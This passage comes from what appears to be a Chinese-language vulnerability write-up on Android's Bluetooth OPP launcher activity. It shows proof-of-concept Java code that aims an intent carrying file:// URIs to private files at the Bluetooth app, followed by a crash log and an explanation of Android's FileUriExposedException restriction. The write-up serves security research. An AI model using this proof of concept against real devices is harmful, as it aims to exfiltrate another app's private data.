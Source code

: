 ```java
                Intent intent = new Intent(Intent.ACTION_SEND_MULTIPLE);
                intent.setType("text/plain");
                ArrayList<Uri> uris = new ArrayList<Uri>();
                uris.add(Uri.parse(PRIV_FILE_URI1));
                uris.add(Uri.parse(PRIV_FILE_URI2));
                intent.putExtra(Intent.EXTRA_STREAM, uris);
                intent.setComponent(new ComponentName("com.android.bluetooth",
                    "com.android.bluetooth.opp.BluetoothOppLauncherActivity"));
                startActivity(intent);
            }
        });
    }
}
```

### 0x04 进一步分析

真的那么简单吗？编译PoC，运行却抛出了安全异常！

``` log
--------- beginning of crash
06-12 10:32:43.930 16171 16171 E AndroidRuntime: FATAL EXCEPTION: main
06-12 10:32:43.930 16171 16171 E AndroidRuntime: Process: ms509.com.testaospbluetoothopplauncher, PID: 16171
06-12 10:32:43.930 16171 16171 E AndroidRuntime: android.os.FileUriExposedException: file:///data/user_de/0/com.android.bluetooth/databases/btopp.db exposed beyond app through ClipData.Item.getUri()
06-12 10:32:43.930 16171 16171 E AndroidRuntime: 	at android.os.StrictMode.onFileUriExposed(StrictMode.java:1799)
06-12 10:32:43.930 16171 16171 E AndroidRuntime: 	at android.net.Uri.checkFileUriExposed(Uri.java:2346)
06-12 10:32:43.930 16171 16171 E AndroidRuntime: 	at android.content.ClipData.prepareToLeaveProcess(ClipData.java:832)
06-12 10:32:43.930 16171 16171 E AndroidRuntime: 	at android.content.Intent.prepareToLeaveProcess(Intent.java:8909)
06-12 10:32:43.930 16171 16171 E AndroidRuntime: 	at android.content.Intent.prepareToLeaveProcess(Intent.java:8894)
06-12 10:32:43.930 16171 16171 E AndroidRuntime: 	at android.app.Instrumentation.execStartActivity(Instrumentation.java:1517)
06-12 10:32:43.930 16171 16171 E AndroidRuntime: 	at android.app.Activity.startActivityForResult(Activity.java:4224)
06-12 10:32:43.930 16171 16171 E AndroidRuntime: 	at android.support.v4.app.BaseFragmentActivityJB.startActivityForResult(BaseFragmentActivityJB.java:50)
06-12 10:32:43.930 16171 16171 E AndroidRuntime: 	at android.support.v4.app.FragmentActivity.startActivityForResult(FragmentActivity.java:79)
06-12 10:32:43.930 16171 16171 E AndroidRuntime: 	at android.app.Activity.startActivityForResult(Activity.java:4183)
```

原来触发了FileUriExposed错误，出于安全考虑，Android SDK 23以上就不能在Intent中传递file:// Uri，见官方说明：

对于面向 Android 7.0 的应用，Android 框架执行的 StrictMode API 政策禁止在您的应用外部公开 file:// URI。如果一项包含文件 URI 的 intent 离开您的应用，则应用出现故障，并出现 FileUriExposedException 异常。要在应用间共享文件，您应发送一项 content:// URI，并授予 URI 临时访问权限。进行此授权的最简单方式是使用 FileProvider 类。
